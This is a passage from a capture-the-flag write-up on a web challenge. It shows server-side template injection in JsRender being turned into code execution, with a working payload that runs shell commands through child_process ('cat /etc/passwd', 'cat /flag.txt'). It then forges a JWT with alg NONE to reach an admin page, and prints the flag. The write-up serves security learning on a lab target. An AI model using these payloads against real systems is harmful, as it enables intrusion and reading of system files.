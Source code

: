 ```js
require('child_process').execSync('cat /etc/passwd')
```

There is however one move obstacle to overcome, the “require” function is not directly available in our newly created function. However, we are able to use reflection to access the same functionality via **`global.process.mainModule.constructor._load()`**

**Armed with above information, we can register the following account in the username field to get the flag:**
```js
\{\{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()")()\}\}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230320142354.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230320142405.png)

**Then login our previously created account:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230320142449.png)

**Finally, using the JWT with header's `alg` set to `NONE`, and payload's `id` set to `1` to bypass the `/admin` page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230320142733.png)

```html
<li class="list-group-item d-flex justify-content-between align-items-center ">
    <span>HTB{Pr3_C0MP111N6_W17H0U7_P4DD13804rD1N6_5K1115}
    </span>
</li>
```

Boom! We finally got the flag!!

- **Flag: `HTB{Pr3_C0MP111N6_W17H0U7_P4DD13804rD1N6_5K1115}`**

## Conclusion

What we've learned:

1. JWT Header's `"alg": "NONE"` Authentication Bypass & RCE Via JsRender SSTI